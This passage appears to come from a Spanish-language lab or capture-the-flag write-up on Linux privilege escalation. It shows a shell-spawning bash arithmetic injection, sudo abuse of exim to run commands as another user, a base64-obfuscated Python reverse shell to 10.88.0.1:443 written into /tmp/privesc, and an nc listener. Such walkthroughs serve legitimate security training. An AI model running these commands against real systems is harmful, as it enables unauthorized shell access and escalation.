 ~~~ bash
a[$(/bin/sh >&2)]+42
~~~

![Pasted image 20241105183521](https://github.com/user-attachments/assets/e802bac2-aa92-4654-93a7-d0fb52a404db)

Para volver a una `bash`, simplemente escribimos `bash`

## Sudo `exim`

Listaremos los privilegios `sudo` que tenemos asignados para el usuario actual

~~~ bash
sudo -l
~~~

![Pasted image 20241105183719](https://github.com/user-attachments/assets/66269833-9c6c-4476-b00e-8e4528951093)


Podemos ejecutar `exim` como el usuario `pepe`, por lo que podemos intentar ejecutar `bash` como este usuario, para ejecutar algún comando a través de `exim`, podemos hacerlo mediante el siguiente comando

~~~ bash
exim -be '${run{/usr/bin/id}}'
~~~

![Pasted image 20241105184456](https://github.com/user-attachments/assets/706776d2-e378-4091-bcbd-b31f5780d683)

Intentamos migrar al usuario `pepe` con `sudo`

~~~ bash
echo '#!/bin/bash' > /tmp/privesc && echo "echo 'cHl0aG9uMyAtYyAnaW1wb3J0IHB0eTtpbXBvcnQgc29ja2V0LG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjg4LjAuMSIsNDQzKSk7b3MuZHVwMihzLmZpbGVubygpLDApO29zLmR1cDIocy5maWxlbm8oKSwxKTtvcy5kdXAyKHMuZmlsZW5vKCksMik7cHR5LnNwYXduKCIvYmluL2Jhc2giKSc=' | base64 -d | bash" >> /tmp/privesc
~~~ 

![Pasted image 20241105203456](https://github.com/user-attachments/assets/734ffa2c-7fed-4221-8099-21b70bea9ded)

Antes de lanzar la `shell` le damos permisos de ejecución al `script`

~~~ bash
chmod +x /tmp/privesc
~~~

## Shell

Nos ponemos en escucha con `nc` por el puerto `443` para recibir la `shell`

~~~ bash
nc -lvnp 443
~~~

## Pepe

Ejecutamos la reverse shell de la siguiente forma

